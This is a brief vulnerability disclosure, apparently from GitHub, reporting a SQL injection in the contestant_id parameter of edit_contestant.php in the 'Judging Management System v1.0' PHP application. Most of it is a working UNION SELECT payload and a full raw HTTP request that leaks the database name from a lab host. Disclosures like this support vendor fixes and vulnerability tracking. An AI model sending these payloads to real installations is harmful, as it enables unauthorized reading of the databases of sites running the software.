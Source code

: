 # Judging Management System v1.0 by oretnom23 has SQL injection

BUG_Author: zhengyiqun

vendors: https://www.sourcecodester.com/php/15910/judging-management-system-using-php-and-mysql-free-source-code.html

The program is built using the xmapp-php8.1 version

Vulnerability File: /php-jms/edit_contestant.php?sub_event_id=1&se_name=&contestant_id=

Vulnerability location: /php-jms/edit_contestant.php?sub_event_id=1&se_name=&contestant_id=, contestant_id

dbname =jms_db

[+] Payload: /php-jms/edit_contestant.php?sub_event_id=1&se_name=&contestant_id=-1%27%20union%20select%201,database(),3,4,5,6,7,8--+ // Leak place ---> contestant_id

```sql
GET /php-jms/edit_contestant.php?sub_event_id=1&se_name=&contestant_id=-1%27%20union%20select%201,database(),3,4,5,6,7,8--+ HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=f6bhcgo222sk31fnm99nf9tjt1
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/206373500-860deff1-e482-44e4-81e3-11f0cc4a3b05.png)

